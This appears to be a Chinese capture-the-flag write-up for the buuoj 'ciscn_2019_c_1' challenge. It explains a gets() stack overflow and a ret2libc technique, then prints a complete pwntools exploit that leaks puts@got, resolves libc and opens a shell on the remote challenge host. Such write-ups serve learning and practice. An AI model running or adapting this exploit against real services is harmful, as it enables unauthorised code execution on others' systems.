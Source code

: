# ciscn 2019 c 1 

From buuoj.

## 文件分析

下载`ciscn_2019_c_1`, NX on, PIE off, RELRO partial  
ghidra分析为64位程序

## 逆向

函数`encrypt()`中存在`gets`，考虑**栈溢出**攻击  
.text段中不存在后门函数，并且有nx，考虑ret2libc

**记录首次学会**

1. 获取`pop rdi; ret;`和puts@plt地址
2. 栈溢出打印puts@got
3. 根据puts@got获知靶机使用的libc
4. 将**puts@got**偏移到system@got & shstr@got
5. 回到`gets`函数，重新执行溢出拿到sh

## 重大注意

如果一个字节为**0x0a**，**会被截断**！（换行）

## EXPLOIT

```python
from pwn import *
import LibcSearcher
sh = remote('node4.buuoj.cn', 29693)
elf = ELF('ciscn_2019_c_1')

putsPlt = elf.plt['puts']
putsGot = elf.got['puts']
popRdiAddr = 0x0400c83
vulnAddr = 0x004009a0
retAddr = 0x0040099f # 不能带0x0a!!!

sh.sendline(b'1') # 选择1.Encrypt (Vulnerable Function)
sh.sendline(b'0'*0x58 + p64(popRdiAddr) + p64(putsGot) + p64(putsPlt) + p64(vulnAddr))

sh.recvuntil(b'\nI') # skip
sh.recvuntil(b'\nI') # skip
data = sh.recvuntil(b'\nI') 
putsGotAddr = u64(data[-8:-2] + b'\0\0')

libc = LibcSearcher.LibcSearcher('puts', putsGotAddr & 0xfff)
libcbase = putsGotAddr - libc.dump('puts')
systemAddr = libcbase + libc.dump('system')
shstrAddr = libcbase + libc.dump('str_bin_sh')

sh.sendline(b'0'*0x58 + p64(popRdiAddr) + p64(shstrAddr) + p64(retAddr) + p64(systemAddr))

sh.interactive()
```

Done.
